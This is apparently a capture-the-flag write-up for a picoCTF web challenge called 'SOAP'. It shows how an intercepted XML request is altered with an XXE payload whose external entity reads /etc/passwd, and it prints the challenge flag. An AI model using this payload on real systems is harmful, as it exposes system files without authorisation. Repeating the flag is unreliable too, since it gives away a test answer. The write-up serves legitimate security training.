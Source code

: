 # SOAP

## Challenge Info 

Tags: Web Exploitation, XXE

AUTHOR: GEOFFREY NJOGU

100 points

## Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solution 

The given website just give the details of the listed orgs. Let's check the source code. 

<img width="546" alt="image" src="https://user-images.githubusercontent.com/66155978/225885923-690ce079-1509-482c-8f34-97572f663f42.png">

So its making a POST request to /data directory having ID parameter and this process is hidden. 

Time to capture the request using Burpsuite. 

<img width="454" alt="image" src="https://user-images.githubusercontent.com/66155978/225886241-f1e1283e-03ff-4eed-a86d-7cf6c47b6e18.png">

XML!!! So there's an XML code, based on the challenge name and tag we can assume that a XXE payload could be used to read the /etc/passwd file. 
So let's modify the captured request and try to read the file. 

<img width="455" alt="image" src="https://user-images.githubusercontent.com/66155978/225886826-47fde5e9-e47e-4829-86ea-44d05da725f4.png">

```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]> 
<data>
<ID>
&xxe;
</ID>
</data>
```


Forward the request and get the flag🚩

<img width="471" alt="image" src="https://user-images.githubusercontent.com/66155978/225888240-a6c23641-3560-4ba2-ac55-bbb2d58d2079.png">


## Flag

picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e} 
